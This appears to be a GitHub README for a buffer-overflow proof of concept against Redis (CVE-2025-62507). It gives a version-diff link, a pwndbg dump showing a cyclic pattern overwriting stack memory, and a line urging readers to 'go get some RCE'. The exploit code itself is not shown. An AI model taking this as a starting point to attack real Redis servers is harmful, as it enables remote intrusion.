

# CVE-2025-62507 Buffer-Overflow PoC
Simple "Crash" BO PoC - this one is working - go get some RCE :)

https://github.com/redis/redis/compare/8.2.2...8.2

```gdb
pwndbg> x/40gx 0x7fffffffdc00
0x7fffffffdc00:	0x6161616261616161	0x0000000000000000
0x7fffffffdc10:	0x6161616461616163	0x0000000000000001
0x7fffffffdc20:	0x6161616661616165	0x0000000000000002
0x7fffffffdc30:	0x6161616861616167	0x0000000000000003
0x7fffffffdc40:	0x6161616a61616169	0x0000000000000004
0x7fffffffdc50:	0x6161616c6161616b	0x0000000000000005
0x7fffffffdc60:	0x6161616e6161616d	0x0000000000000006
0x7fffffffdc70:	0x616161706161616f	0x0000000000000007
0x7fffffffdc80:	0x6161617261616171	0x0000000000000008
```


